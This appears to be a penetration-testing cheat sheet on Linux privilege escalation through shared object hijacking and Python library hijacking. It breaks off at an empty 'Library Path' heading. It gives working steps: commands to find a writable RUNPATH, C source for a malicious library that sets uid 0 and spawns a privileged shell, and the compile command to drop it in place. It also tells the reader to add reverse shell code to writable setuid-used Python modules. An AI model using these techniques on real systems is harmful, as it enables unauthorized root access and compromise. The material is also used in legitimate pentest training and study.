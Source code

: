## Shared Object Hijacking

```shell
# Print the shared object required by a binary or shared object
ldd $BINARY
```

- Check for any non-standard library.
- It is possible to load shared libraries from custom locations. 
- One such setting is the `RUNPATH` configuration. Libraries in this folder are given preference over other folders. 

```shell
readelf -d $BINARY | grep PATH
# Sample output: 
# 0x000000000000001d (RUNPATH)   Library runpath: [/abc]
```

- The configuration allows the loading of libraries from the /abc folder.
If it is writable by us, this misconfiguration can be exploited by placing a malicious library in /abc, which will take precedence over other folders because entries in this file are checked first.

- Run the binary, generate an error and check which function it is calling from the custom library.

```cpp
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void $CALLED_FUNCTION() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```

- Compile the library

```shell
gcc exploit.c -fPIC -shared -o /abc/$CUSTOM_LIBRARY.so
```

## Python Library Hijcking

### Wrong Write Permissions
- If we have a script with setuid and have `read` privileges on it.
- We can check if we have `write` permissions on any module used in it.

```shell
grep -r "def $FUNCTION_USED" /usr/local/lib/python3.8/dist-packages/$MODULE/*
ls -al $PATH_TO_MODULE_FILE
```

- If we can write, add reverse shell code into it.

### Library Path
